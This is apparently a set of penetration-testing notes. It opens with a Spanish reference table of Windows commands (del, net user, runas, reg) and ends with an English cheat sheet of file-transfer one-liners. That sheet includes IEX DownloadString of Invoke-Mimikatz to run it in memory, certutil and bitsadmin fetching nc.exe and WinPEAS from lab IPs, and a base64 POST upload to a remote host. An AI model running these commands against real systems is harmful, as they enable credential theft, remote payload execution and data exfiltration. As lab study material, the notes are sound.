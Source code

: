 | Comando           | Descripción                                                                                                                                                                                                           |
| ----------------- | --------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| **Del**           | Elimina un archivo                                                                                                                                                                                                    |
| **Ren**           | Renombra un archivo o directorio                                                                                                                                                                                      |
| **Dir**           | Lista un directorio                                                                                                                                                                                                   |
| **Copy**          | Copia un archivo a otro lugar                                                                                                                                                                                         |
| **Move**          | Mueve un archivo a otro lugar                                                                                                                                                                                         |
| **Tasklist**      | Muestra una lista de procesos en ejecución                                                                                                                                                                            |
| **Taskill**       | Finaliza un proceso                                                                                                                                                                                                   |
| **Help**          | Muestra ayuda sobre un comando                                                                                                                                                                                        |
| **Netstat**       | Información de red                                                                                                                                                                                                    |
| **Taskmgr**       | Abre el Administrador de tareas                                                                                                                                                                                       |
| **Regedit**       | Abre el editor de registros                                                                                                                                                                                           |
| **Chkdsk**        | Verificar estado del disco                                                                                                                                                                                            |
| **Gpupdate**      | Actualiza las politicas de grupos                                                                                                                                                                                     |
| **Diskpart**      | Abre la utilidad de particionado de discos                                                                                                                                                                            |
| **Wmic**          | Abre la Consola de Instrumental de Administración de Windows (WMIC), que permite                                                                                                                                      |
| **Sfc / scannow** | Escanea y repara archivos del sistema dañados en Windows                                                                                                                                                              |
| **Bcdedit**       | Permite ver y modificar la configuración del almacén de datos de arranque de Windows (BCD, por sus siglas en inglés), que controla cómo se inicia Windows.                                                            |
| **Net user**      | Permite administrar cuentas de usuario en el sistema, incluyendo la creación, eliminación y modificación de cuentas.                                                                                                  |
| **Net share**     | Muestra y administra recursos compartidos en el equipo, como carpetas compartidas y recursos de impresión.                                                                                                            |
| **Mklink**        | Crea enlaces simbólicos o enlaces duros entre archivos o directorios. Un enlace simbólico es similar a un acceso directo en Windows, mientras que un enlace duro es una referencia directa a un archivo o directorio. |
| **Type**          | Muestra el contenido de uno o varios archivos de texto en la consola o terminal de comandos. Es similar al comando `cat` en sistemas Unix o Linux.                                                                    |
| **Reg**           | Trabajar con los registros de Windows                                                                                                                                                                                 |
| **msiexec**       | Ejecutar archivos msi                                                                                                                                                                                                 |
| **Runas**         | Runas es una característica que te permite ejecutar cualquier programa en nombre de otro usuario si conoces su contraseña                                                                                             |

# Instalar fichero desde servidor
```Powershell
certutil -urlcache -f http://10.9.0.160:8080/winPEASany_ofs.exe C:\Users\CyberLens\Desktop\WinPEAS.exe
```

# Ejecutar cmd desde otro usuario
```
runas /user:Administrator cmd
```


## **Net**
El comando `net` en Windows es una herramienta de línea de comandos que proporciona varias funciones relacionadas con la gestión de redes y recursos compartidos. A continuación, se muestran algunas de las opciones más comunes de `net` y sus descripciones:
- `net accounts`: Gestiona la configuración de cuentas de usuario.
- `net computer`: Agrega o elimina una relación entre una computadora y un grupo de trabajo.
- `net config`: Muestra o modifica la configuración del servidor de red.
- `net continue`: Continúa un trabajo que se ha suspendido.
- `net file`: Muestra o cierra archivos abiertos en recursos compartidos de red.
- `net group`: Administra grupos de usuarios.
- `net help`: Muestra ayuda para los comandos de red.
- `net localgroup`: Administra grupos locales de usuarios.
- `net name`: Agrega o elimina nombres de recursos compartidos de red.
- `net pause`: Pausa un trabajo que se está ejecutando.
- `net print`: Controla la impresión de archivos en una impresora compartida.
- `net send`: Envía un mensaje de texto a otros usuarios, computadoras o grupos.
- `net session`: Muestra información sobre sesiones de usuario en un servidor.
- `net share`: Administra recursos compartidos de archivos e impresoras.
- `net start`: Inicia un servicio.
- `net statistics`: Muestra estadísticas del servidor.
- `net stop`: Detiene un servicio.
- `net time`: Muestra o establece la hora del sistema.
- `net use`: Conecta o desconecta un equipo de un recurso compartido.
- `net user`: Administra cuentas de usuario.

| **Command**                                                                                                        | **Description**                             |
| ------------------------------------------------------------------------------------------------------------------ | ------------------------------------------- |
| `Invoke-WebRequest https://<snip>/PowerView.ps1 -OutFile PowerView.ps1`                                            | Download a file with PowerShell             |
| `IEX (New-Object Net.WebClient).DownloadString('https://<snip>/Invoke-Mimikatz.ps1')`                              | Execute a file in memory using PowerShell   |
| `Invoke-WebRequest -Uri http://10.10.10.32:443 -Method POST -Body $b64`                                            | Upload a file with PowerShell               |
| `bitsadmin /transfer n http://10.10.10.32/nc.exe C:\Temp\nc.exe`                                                   | Download a file using Bitsadmin             |
| `certutil.exe -verifyctl -split -f http://10.10.10.32/nc.exe`                                                      | Download a file using Certutil              |
| `wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh`                   | Download a file using Wget                  |
| `curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh`                   | Download a file using cURL                  |
| `php -r '$file = file_get_contents("https://<snip>/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'`          | Download a file using PHP                   |
| `scp C:\Temp\bloodhound.zip user@10.10.10.150:/tmp/bloodhound.zip`                                                 | Upload a file using SCP                     |
| `scp user@target:/tmp/mimikatz.exe C:\Temp\mimikatz.exe`                                                           | Download a file using SCP                   |
| `Invoke-WebRequest http://nc.exe -UserAgent [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome -OutFile "nc.exe"` | Invoke-WebRequest using a Chrome User Agent |
